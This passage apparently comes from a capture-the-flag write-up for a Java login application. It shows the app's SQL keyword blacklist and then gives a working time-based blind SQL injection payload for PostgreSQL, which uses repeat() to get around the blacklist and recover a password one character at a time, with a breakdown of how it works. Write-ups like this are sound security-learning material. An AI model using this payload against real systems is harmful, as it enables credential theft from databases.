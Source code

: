```java
        model.addAttribute("status", Integer.valueOf(500));
        model.addAttribute("message", var10.toString());
        return "error";
      }  
    model.addAttribute("status", Integer.valueOf(500));
    model.addAttribute("message", "check error~");
    return "error";
  } 
  return "login";
}
```

Unfortunately, there are checks for SQL keywords and AST in the code under `com.chatterbox.utils.SQLCheck`:
```java
private static List<String> getBlackList() {
  List<String> black = new ArrayList<>();
  black.add("SELECT");
  black.add("UNION");
  black.add("INSERT");
  black.add("ALTER");
  black.add("SLEEP");
  black.add("DELETE");
  black.add("--");
  black.add(";");
  black.add("#");
  black.add("&");
  black.add("/*");
  black.add("OR");
  black.add("EXEC");
  black.add("CREATE");
  black.add("AND");
  black.add("DROP");
  ...
  black.add("NOREPLICATION");
  black.add("BYPASSRLS");
  black.add("FILE");
  black.add("PG_");
  black.add("IMPORT");
  black.add("EXPORT");
  return black;
}
```

The majority of keywords is covered, but we've managed to obtain SQL injection with use of concatenation and `repeat` function which was not blacklisted:
```
' || '' || repeat('', 2147483647 - ascii('<CHAR>') + ascii(substr(passwd,<POS>,1))) || '
```

Breakdown of working payload:
- `'` closes previous username condition
- `|| '' ` concats empty
- `|| repeat('', 2147483647 - ascii('<CHAR>') + ascii(substr(passwd,<POS>,1))) ` - substitute for `pg_sleep`
  - the `repeat` function will repeat the first parameter `''` that many times as specified in the second parameter
  - the second parameter expects an integer
  - 2147483647 is `max_int` meaning that once `ascii('<CHAR>')` is the same as character positioned on `<POS>` in `ascii(substr(passwd,<POS>,1)`, the repeat will execute 2147483647 times effectively putting postgres in extensive workload increasing delay time
  - if characters are not the same, `repeat` will be instructed to execute 2147483647 + N times which is no longer an integer, making postgres fail with instant response (no delays)
  - final payload results in a detection where long delay means that the guessed char is the one contained in the password and no delay means that it is a failed guess